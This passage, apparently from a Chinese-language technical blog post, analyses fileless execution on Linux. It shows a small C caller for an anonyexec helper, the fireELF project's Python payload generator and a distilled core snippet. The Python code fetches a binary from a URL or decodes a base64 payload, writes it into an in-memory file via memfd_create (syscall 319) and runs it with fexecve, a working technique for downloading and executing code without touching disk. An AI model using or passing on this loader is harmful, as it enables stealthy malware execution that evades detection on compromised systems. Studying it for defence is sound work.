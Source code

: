 ```c
    int main()
    {
        char *argv[] = {"/bin/uname", "-a", NULL};
        int result =anonyexec("/bin/uname", argv);
        return result;
    }

```

### python版本-1

#### 来源与参考

这里给出一段使用python脚本完成memfd_create调用的例子，代码来自fireELF项目，具体的代码地址为：

https://github.com/rek7/fireELF/blob/master/payloads/simple.py

同样的，网上已有不少现成的代码讲解与分析。

```shell
https://www.cnblogs.com/lsgxeva/p/12956858.html
https://blog.csdn.net/Rong_Toa/article/details/109845832#t9
```

#### 代码分析

```python
import base64
 
desc = {"name" : "memfd_create", "description" : "Payload using memfd_create", "archs" : "all", "python_vers" : ">2.5"}
 
def main(is_url, url_or_payload):
    payload = '''import ctypes, os, urllib2, base64
libc = ctypes.CDLL(None)
argv = ctypes.pointer((ctypes.c_char_p * 0)(*[]))
syscall = libc.syscall
fexecve = libc.fexecve'''
    if is_url:
        payload += '\ncontent = urllib2.urlopen("{}").read()'.format(url_or_payload)
    else:
        encoded_payload = base64.b64encode(url_or_payload).decode()
        payload += '\ncontent = base64.b64decode("{}")'.format(encoded_payload)
    payload += '''\nfd = syscall(319, "", 1)
os.write(fd, content)
fexecve(fd, argv, argv)'''
    return payload
```

我们再进一步从上面代码中提取出核心代码：

```python
import ctypes, os, urllib2, base64
libc = ctypes.CDLL(None)
argv = ctypes.pointer((ctypes.c_char_p * 0)(*[]))
syscall = libc.syscall
fexecve = libc.fexecve

content = PAYLOAD_2_EXECUTE
# memfd_create的函数调用码是319
fd = syscall(319, "", 1)
os.write(fd, content)
fexecve(fd, argv, argv)
```
